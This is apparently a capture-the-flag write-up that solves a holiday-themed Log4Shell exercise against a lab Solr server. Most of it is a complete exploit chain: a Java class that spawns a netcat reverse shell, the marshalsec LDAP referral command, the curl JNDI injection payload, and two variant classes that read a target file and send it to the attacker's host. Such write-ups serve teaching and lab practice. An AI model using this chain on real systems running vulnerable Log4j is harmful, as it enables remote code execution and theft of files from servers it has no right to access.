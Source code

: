 <h1 id="bonus-red-log4jack">Bonus Red Log4Jack</h1>
<p><strong>Location: North Pole</strong><br>
<strong>Troll: Icky McGoop</strong></p>
<p>This exercise runs in a Cranberry Pi terminal, focusing on exploiting the Log4J vulnerability recently discovered.<br>
Multiple terminal session are created automatically, one running a web server serving from <code>/home/troll/web</code> on port 8080, another one running a netcat listener on port 4444.</p>
<p>The objective is to retrieve the file <code>/home/solr/kringle.txt</code> from a web service running solr on <a href="http://solrpower.kringlecastle.com:8983/">http://solrpower.kringlecastle.com:8983/</a>.</p>
<p>First a Java class <code>Joergen</code> creating a reverse shell is created:</p>
<pre><code>public class Joergen {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
</code></pre>
<p><em>CLIENTIP</em> has to be replaced with the terminal’s IP address.<br>
This is placed in the web tree, so that the web server is able to hand out this class.<br>
Next the <a href="https://github.com/mbechler/marshalsec">marshalsec</a> installation residing in <code>/home/troll/marshalsec</code>  is started:</p>
<pre><code>java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://WEBSERVERIP:8080/#Joergen"
</code></pre>
<p><em>WEBSERVERIP</em> has to be replaced with the terminal’s IP address.<br>
This application acts as an LDAP server and uses the Java class on the web server as remote code base.</p>
<p>Finally the Log4J vulnerability is triggered:</p>
<pre><code>curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?foo=$\{jndi:ldap://MARSHALSECIP:1389/YuleLogExploit\}'
</code></pre>
<p><em>MARSHALSECIP</em> has to be replaced with the terminal’s IP address.</p>
<p>This triggers on the solr server an LDAP connection to the marshalsec service, which in turn delivers the Java class hosted on the web server. The solr server then executes this class, effectively creating a reverse shell connection to the netcat listener. This allows the file <code>kringle.txt</code> to be retrieved.</p>
<pre><code>cat /home/solr/kringle.txt

The solution to Log4shell is patching.
Sincerely,

Santa
</code></pre>
<p>So <strong>patching</strong> is the solution.</p>
<h3 id="alternative-1">Alternative 1</h3>
<pre><code>import java.io.*;
import java.nio.file.*;

public class Joergen {
  static {
    try {
      Process p=java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444");
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      OutputStream out=p.getOutputStream();
      out.write(data);
      out.close();
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
</code></pre>
<p><em>CLIENTIP</em> has to be replaced with the terminal’s IP address.</p>
<h3 id="alternative-2-pure-java-solution">Alternative 2: pure Java solution</h3>
<pre><code>import java.io.*;
import java.nio.file.*;
import java.net.Socket;

public class Joergen {
  static {
    try {
	  Socket socket=new Socket("CLIENTIP",4444);
	  PrintStream out = new PrintStream( socket.getOutputStream() );
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      out.write(data);
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
</code></pre>
<p><em>CLIENTIP</em> has to be replaced with the terminal’s IP address.</p>
<p><strong>Achievement: Log4J Red Bonus</strong></p>

